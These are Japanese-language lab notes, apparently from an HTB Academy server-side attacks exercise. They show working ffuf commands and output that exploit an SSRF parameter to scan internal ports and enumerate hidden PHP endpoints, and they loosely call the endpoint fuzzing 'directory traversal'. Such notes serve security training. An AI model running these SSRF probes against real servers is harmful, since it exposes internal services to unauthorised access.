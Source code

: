 #### ffufによるポートスキャンの自動化
- スキャンしたいポート番号のリスト（例：1～10000）を作成する
```sh
seq 1 10000 > ports.txt
```
- ffuf を使ってスキャンを行い、先ほどのエラーメッセージが含まれないレスポンス（つまりポートが開いている）をフィルタリングする
```shell
└─$ ffuf -w ./ports.txt -u http://10.129.183.53/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.183.53/index.php
 :: Wordlist         : FUZZ: /home/kali/Desktop/HTBAcademy/Server-Side-Attacks/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Failed to connect to
________________________________________________

80                      [Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 4107ms]
3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 296ms]
:: Progress: [10000/10000] :: Job [1/1] :: 139 req/sec :: Duration: [0:01:20] :: Errors: 0 ::

```

#### ffufによるディレクトリリバーサル
- 空いている内部ポートを見つけたが、403になる
	- 存在しないディレクトリにアクセスしているため
- ffufで、ディレクトリトラバーサルをすることで、存在しているディレクトリを洗い出すことができる
```sh
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

<SNIP>

[Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 3872ms]
    * FUZZ: admin
[Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 6ms]
    * FUZZ: availability
```
